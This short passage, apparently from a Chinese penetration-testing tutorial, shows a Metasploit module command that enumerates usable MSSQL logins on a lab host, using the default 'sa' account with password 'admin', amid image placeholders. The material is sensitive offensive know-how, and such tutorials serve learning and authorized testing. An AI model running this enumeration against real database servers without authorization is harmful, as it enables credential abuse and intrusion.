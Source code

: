 ![image.png](assets/1706232584-a140fe0476e20776c4e03b7bc9f9904c.png)

### 用户枚举

查询 mssql 所有可以正确登录的用户

```php
use auxiliary/admin/mssql/mssql_enum_sql_login
set rhosts 192.168.3.130
set username sa
set password admin
exploit
```

![image.png](assets/1706232584-22522076a91203a7ea64d56e1af4b8d9.png)
